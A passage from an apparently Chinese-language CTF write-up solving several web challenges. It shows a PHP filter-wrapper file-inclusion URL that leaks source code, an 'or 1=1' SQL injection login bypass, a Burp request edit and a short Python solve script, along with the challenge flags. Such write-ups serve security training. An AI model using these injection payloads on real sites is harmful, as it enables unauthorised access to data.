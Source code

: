 ```python
    key = re.findall("¼(.*?)<br", response.text, re.S)[0]
    print(key)
    response = s.get("http://123.206.31.85:10020/?key={}".format(key))
    print(response.text)
```
测试的时候注意上面那个符号可能UTF-8格式有些编辑器显示不出来，编\u9a码为i。可能结果不是每次都有，得到flag如下：
```
flag{Md5tiMe8888882019}
```

## web3
文件上传，白名单过滤，只能上传png，先不试这个方向；试试文件包含。
先用御剑扫描后台得到有四个文件index.php、show.php、upload.php、flag.php
发现几个链接中都是用参数op传递文件名的：
```
http://123.206.31.85:10003/?op=home
http://123.206.31.85:10003/?op=upload
```
所以猜测可以用这个参数打开其他文件，直接打开http://123.206.31.85:10003/?op=show 好像不行，因为show.php是在上传了文件之后才会调用的，还带了一个参数，所以暂时不管。

打开flag也不行，接下来考虑php伪协议进行文件包含
```
http://123.206.31.85:10003/?op=php://filter/read=convert.base64-encode/resource=flag
```
可以得到一段base64编码：
```php
PD9waHAgCiRmbGFnPSJmbGFne2UwMGY4OTMxMDM3Y2JkYjI1ZjZiMWQ4MmRmZTU1NTJmfSI7IAo/Pgo=
解码得
<?php 
$flag="flag{e00f8931037cbdb25f6b1d82dfe5552f}"; 
?>
```
所以flag为
```
flag{e00f8931037cbdb25f6b1d82dfe5552f}
```

## web4
直接sql注入username，密码随意。
在username框中输入
```
admin' or 1=1 #
```
即可得到flag为：
```
flag{7ae7de60f14eb3cbd9403a0c4328598d}
```

## web15
随便填个东西然后burpsuite 抓包，把链接中的1ndex.php改成index.php，然后再发送即可得到flag。
```
flag{Is_wh1te_ooo000oo0}
```
